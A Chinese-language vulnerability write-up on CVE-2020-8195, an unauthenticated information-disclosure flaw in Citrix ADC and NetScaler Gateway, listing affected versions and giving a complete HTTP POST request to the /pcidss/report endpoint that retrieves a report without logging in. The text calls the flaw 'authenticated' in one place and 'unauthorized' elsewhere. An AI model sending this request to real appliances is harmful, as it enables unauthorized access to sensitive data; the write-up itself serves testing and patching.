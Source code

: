 （CVE-2020-8195）Citrix 未授权访问漏洞
======================================

一、漏洞简介
------------

Citrix ADC和Citrix NetScaler
Gateway存在一个信息泄露漏洞，该漏洞允许经过身份验证的远程恶意用户获取主机上的敏感信息。通过发送特制请求，攻击者可以利用此漏洞获取敏感信息，然后使用此信息对受影响的系统发起进一步的攻击。

二、漏洞影响
------------

Citrix ADC and Citrix Gateway: \< 13.0-58.30

Citrix ADC and NetScaler Gateway: \< 12.1-57.18

Citrix ADC and NetScaler Gateway: \< 12.0-63.21

Citrix ADC and NetScaler Gateway: \< 11.1-64.14 

NetScaler ADC and NetScaler Gateway: \< 10.5-70.18

Citrix SD-WAN WANOP: \< 11.1.1a

Citrix SD-WAN WANOP: \< 11.0.3d

Citrix SD-WAN WANOP: \< 10.2.7

Citrix Gateway Plug-in for Linux: \<  1.0.0.137

三、复现过程
------------

> Citrix 默认签名处允许使用以下HTTP请求下载报告而无需进行身份验证

    POST /pcidss/report?type=all_signatures&sid=254&username=nsroot&profile_name=default&set=0&sig_name=_default_signature_&sig_start_no=1 HTTP/1.1
    Host: www.0-sec.org
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: https://citrix.local/pcidss/launch_report?type=main
    Content-Type: application/xml
    Content-Length: 0
    DNT: 1
    Connection: close
    Upgrade-Insecure-Requests: 1

1.png
